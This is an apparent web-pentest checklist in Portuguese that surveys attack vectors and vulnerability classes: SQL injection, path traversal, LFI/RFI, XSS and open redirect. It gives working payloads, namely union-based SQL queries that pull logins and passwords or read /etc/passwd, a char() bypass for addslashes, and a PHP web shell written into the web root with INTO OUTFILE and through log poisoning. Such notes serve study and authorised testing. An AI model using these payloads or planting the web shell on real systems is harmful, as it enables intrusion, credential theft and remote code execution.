 # Checklist
Directories
Files
Accepted Methods
Source Code

# Vetores de Ataque
Campos de busca
Campos de Login/Autenticação
Campos de Registro/Cadastro
Redirecionamentos
Parâmetros GET e POST
Download/Upload
Posts

# Vulnerabilidades
## Directory and files Bruteforce
Com o dirbuster é possível encontrar diretórios e arquivos escondidos no host através de bruteforce

## Method Bypass
É possível ver o conteúdo de uma página que é necessário acesso administrativo utilizando outro método para acessar. Exemplo: Fazer uma requisição POST via curl para a página específicada

## Source Code Analysis
É possível encontrar informações confidenciais através do código fonte da página e das suas subpáginas


## Open Redirect
Em casos que o redirecionamento é feito pelo parâmetro GET e seja passível de mudar a URL, o hacker pode alterar o link para um site malicioso ou para o que ele desejar. Algumas vezes, o parâmetro de redirecionamento está codificado em base64, MD5, etc. , mas isso também é possível burlar descobrindo a codificação e colocando no parâmetro o link codificado


## SQL Injection
Para testar se existe um SQL Injection, um método é colocar o contrabarra ou uma aspa simples em campos de input

### Error Based
O Error Based, como o próprio nome diz, é baseado nos erro que retorna ao tentar fazer uma consulta no banco de dados em algum campo. Com ele, é possível injetar códigos SQL para descobrir informações sobre a tabela e o banco de dados.

Exemplo: ' union select 1,2,3... %23'
Exemplo: ' order by 1 or 2 or 3...'
Exemplo: union select 1, column_name, load_file(”/etc/passwd”), 4, from information_schema.columns where table_schema=”database” and table_name=”users” %23

### Blind
Quando não se há indicações se existe um SQL Injection, pode se usar alguns testes  para verificar a lógica AND e OR do programa.

Exemplo: ' or 1=1 union select 1,2#

#### Blind Post
Para descobrir informações confidenciais do servidor através da lógica, é possível utilizar-se da função ascii para descobrir o nome da base de dados em que a aplicações está, por isso é muito comum usar o Burp Suite no modo Repeater para fazer as requisições.

Exemplo: ' or length(database()) = 7 #
Exemplo: ' or ascii(substring(database(),1,1)) == number ascii for letter # 
Exemplo: ' or database() = char(115,116,114,105,110,103) # 

#### SQLi to RCE
Com a injeção de comandos SQL, é possível escrever dados no servidor com o comando INTO OUTFILE e o caminho do diretório que você deseja salvar.

Exemplo: ‘ union all select 1,2,3,4, “string” INTO OUTFILE “/var/www/html/website/file.txt” %23

Exemplo: ‘ union all select 1,2,3,4, “<?php system($_GET[’parameter’]); ?>” INTO OUTFILE “/var/www/html/website/banners/file.php” %23

### Information Schema
Através do information Schema, é possível obter a tabela com usuários e senhas do sistema e obter as informações contidas nela.

Exemplo: ' union select 1,2, group_concat(table_name),4,5 from information_schema.tables where table_schema = "string" %23
Exemplo: ' union select 1,2,concat(login,':',senha),4,5 from table %23

### Bypass addslashes
Em alguns casos, por causa do jeito em que foi programado a consultado no banco de dados, vai adicionar algumas contrabarras na consulta, impossibilitando de fazer consultas com aspas simples, gerando um erro. Porém, umas das formas de burlar esse mecanismos, é passar os valores da string em decimal separados por vírgulas com a função char().

Exemplo: echo -n “string” | od -An -tdC

Exemplo:-1 union select 1,table_name,3,4,5 from information_schema.tables where table_schema=char(115,116,114,105,110,103)

Site: [https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html](https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html)


## Full Path Disclosure | Path Traversal | Directory Traversal
O Path Traversal ou Directory Traversal é uma vulnerabilidade que ocorre quando é se é possível navegar entre os diretórios através de um parâmetro GET pela URL utilizando o "../" para listar todos os diretórios anteriores. Através dessa vulnerabilidade é possível encontrar arquivos sensíveis que se colocados na URL pode-se ver o conteúdo deles e encontrar informações confidenciais
## Local File Inclusion (LFI)
O Local File Inclusion ocorre quando o usuário consegue incluir e executar arquivos locais no servidor, manipulando os parâmetros da solicitação para incluir arquivos maliciosos no código da aplicação. Em códigos que adicionam uma extensão de arquivo ao final da solicitação, é possível burlar utilizando a adição de um nullbyte (%00) ao final da solicitação.

### Remote Code Execution através de LFI
É possível a injeção de código remoto através dos arquivo logs do servidor caso o servidor interprete o código passado para o log.  No exemplo a seguir, o código chama a função system e pelo parâmetro GET, executa o código passado por parâmetro remotamente no servidor.
Exemplo de código PHP: <?php system($_GET['parammeter']); ?>
## Remote File Inclusion (RFI)
O Remote File Inclusion ocorre quando o servidor executa códigos remotamente de outro servidor, assim, é possível subir um servidor e enviar um código malicioso para o servidor, para executar códigos remotamente através de um parâmetro, assim como no RCE através de LFI
## HTML Injection
O HTML Injection ocorre quando se é possível injetar códigos HTML na página

## Cross Site Scripting (XSS)
### Refletido
Utilizando o mesmo conceito do HTML Injection, é possível também injetar códigos javascript no servidor para executar códigos no servidor. O XSS Refletido se dá por que o atacante cria uma URL maliciosa e precisa enviar para uma vítima, não é feito nenhuma gravação no banco de dados da página

### Stored 
Quando o XSS é armazenado em algum lugar, por exemplo os comentários de feedback,  e com isso, é possível roubar os cookies de outros usuários enviando eles para o próprio servidor 

### XSStrike
O XSStrike é uma ferramenta para automatizar os testes de XSS em um host
Para utilizar ele basta utilizar o comando `python3 xsstrike.py -u "host?parameter="` ou `python3 xsstrike.py -u "host" --params` para XSS Refletido e o comando `python3 xsstrike.py -u "host/" --path` para Self XSS
Link para o download da ferramenta: https://github.com/s0md3v/XSStrike

## URL Encode
URL encoding converts characters into a format that can be transmitted over the Internet.

URLs can only be sent over the Internet using the [ASCII character-set](https://www.w3schools.com/charsets/ref_html_ascii.asp).

Since URLs often contain characters outside the ASCII set, the URL has to be converted into a valid ASCII format.

URL encoding replaces unsafe ASCII characters with a "%" followed by two hexadecimal digits.  

URLs cannot contain spaces. URL encoding normally replaces a space with a plus (+) sign or with %20.

Site for more informations about: https://www.w3schools.com/tags/ref_urlencode.ASP